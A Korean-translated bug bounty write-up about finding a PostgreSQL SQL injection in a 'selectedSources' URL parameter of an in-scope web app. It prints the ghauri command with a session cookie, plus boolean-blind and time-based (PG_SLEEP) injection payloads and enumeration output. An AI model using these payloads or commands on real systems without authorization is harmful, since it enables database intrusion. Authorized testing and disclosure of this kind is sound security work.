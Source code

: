 ```yaml
---
title: "첫 번째 유로 보상을 받은 방법"
description: ""
coverImage: "/assets/img/2024-06-19-HowIGotMyFirstBounty_0.png"
date: 2024-06-19 21:16
ogImage: 
  url: /assets/img/2024-06-19-HowIGotMyFirstBounty_0.png
tag: Tech
originalTitle: "How I Got My First €€€€ Bounty"
link: "https://medium.com/@machiavellli/how-i-got-my-first-bounty-65ad8a1763de"
---
```



안녕하세요!

이 글에서는 어떻게 첫 번째 €€€€ 현상금을 발견했는지에 대해 공유하겠습니다.

처음에는 프로그램 범위가 다양한 서비스와 관련된 URL 집합이었기 때문에 기본 수동 현지 조사로 시작했습니다. 예를 들어:

- https://ex.admin.service.example.com/

<div class="content-ad"></div>

https://ex.service.service.example.com/

https://ex.abc.service.example.com/

또한, 프로그램은 역할을 테스트하기 위한 자격 증명을 제공했습니다.

그런 다음 Burp를 통해 트래픽을 프록시하여 일반 사용자처럼 정렬기능을 제외한 다른 기능을 테스트하면서 사이트를 찾아보았지만, 흥미로운 기능은 없었습니다. 어떤 JS 파일에서 이미 본 흥미로운 매개변수들이 있었다는 것을 알게 되었습니다.

<div class="content-ad"></div>

“SelectedSources, SelectedTemplateNames” 처음에는 아마도 데이터베이스에서 일부 데이터를 가져오는 것인줄 알았어요. 그래서 '“, ‘, \', 와 같은 특수 문자를 입력하여 ' 이상을 찾는 테스트를 해보기로 결정했어요. 하나의 따옴표를 입력하자 500 HTTP 상태 코드(내부 서버 오류)를 받았고, 또 다른 따옴표를 더 추가하니 200 HTTP 상태 코드(정상)를 받았어요.

```js
https://ex.service.example.com/history?selectedSources=someSources' > 500
```

```js
https://ex.service.example.com/history?selectedSources=someSources'' > 200
```

가끔은 역슬래시를 입력하여 확인하기도 해요. 그런데 여기서는 400 안 좋은 요청(Java 앱이었어요)을 받았어요.

<div class="content-ad"></div>

```js
그 후에는 데이터베이스 버전을 추출하기 위해 sqlmap을 실행해 보았지만, 불행히도 sqlmap은 PostgreSQL이 DBMS임을 제외하고는 아무것도 추출하지 못했습니다. 그러나 포기하지 않고 대신 ghauri(https://github.com/r0oth3x49/ghauri.git)를 사용해 보았어요!

ghauri -u "https://ex.service.example.com/history?selectedSources=someSources" --dbms=postgres --cookie="JSESSIONID=09326D266052B6B0F7E391B7BBD3A284" --dbs

Boom! 🚀
```

<div class="content-ad"></div>

```js
[09:22:32] [INFO] 대상 URL에 대한 연결 테스트 중
Ghauri는 저장된 세션에서 다음 인젝션 지점을 재개했습니다:
매개변수: selectedSources (GET)
    유형: 블라인드 기반 boolean
    제목: OR 블라인드 기반 - WHERE 또는 HAVING 절
    페이로드: selectedSources=someSources') OR 06690=6690 OR ('04586'='4586
    
    유형: 블라인드 기반 시간
    제목: PostgreSQL > 8.1 및 시간 기반 블라인드 (주석)
    페이로드: selectedSources=someSources') AND 4564=(SELECT 4564 FROM PG_SLEEP(6)) OR ('04586'='4586
    
[09:22:33] [INFO] PostgreSQL 테스트 중
[09:22:34] [INFO] PostgreSQL 확인 중
[09:22:34] [INFO] 백엔드 DBMS는 PostgreSQL입니다
[09:22:34] [INFO] 데이터베이스 이름 검색 중
[09:22:34] [INFO] 데이터베이스 수 검색 중
[09:22:51] [INFO] 검색된 결과: 3
[09:26:01] [INFO] 검색된 결과: information_schema
[09:27:51] [INFO] 검색된 결과: pg_catalog
[09:28:57] [INFO] 검색된 결과: public
사용 가능한 데이터베이스 [3]:
[*] pg_catalog
[*] public
[*] information_schema
```

제보했고, 딱 한 시간 만에 트리저가 보고서를 회사에 전달했고, 그들은 취약점을 인정했습니다.

<img src="/assets/img/2024-06-19-HowIGotMyFirstBounty_0.png" />

다음 날, 회사에서 바운티를 수여했습니다.

<div class="content-ad"></div>


![이미지](/assets/img/2024-06-19-HowIGotMyFirstBounty_1.png)

마지막으로, 이해하지 못하는 도구, 기술 또는 프로그램에만 집착하지 마세요. 그렇게 하면 탈진하게 될 거예요. 이미 인터넷은 취약점으로 가득 찬 곳이니까요.

Twitter/X: https://x.com/MachIaVellill

سَلامٌ
